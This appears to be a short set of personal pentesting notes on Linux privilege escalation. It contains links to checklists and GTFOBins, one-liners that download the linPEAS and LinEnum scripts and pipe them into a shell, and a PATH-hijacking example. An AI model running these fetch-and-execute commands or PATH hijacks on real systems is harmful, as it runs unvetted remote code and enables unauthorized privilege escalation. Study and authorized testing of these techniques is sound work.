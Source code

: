 # priv-esc

## checklist

https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist

## scripts

### Basic Linux Privilege Escalation

[Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

### [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

`curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh`

### linenum

`wget -O - https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash`

## Path vulnerability

If something searches the Path for a a command and where able to replace the path we can trick the system to execute something else.  
Whenever we use `ls` it will now actually run `cat`.

```bash
export PATH="/tmp/tmp:${PATH}"
cp /bin/cat /tmp/tmp/cat
mv /tmp/tmp/cat /tmp/tmp/ls
```

## GTFOBins

https://gtfobins.github.io/

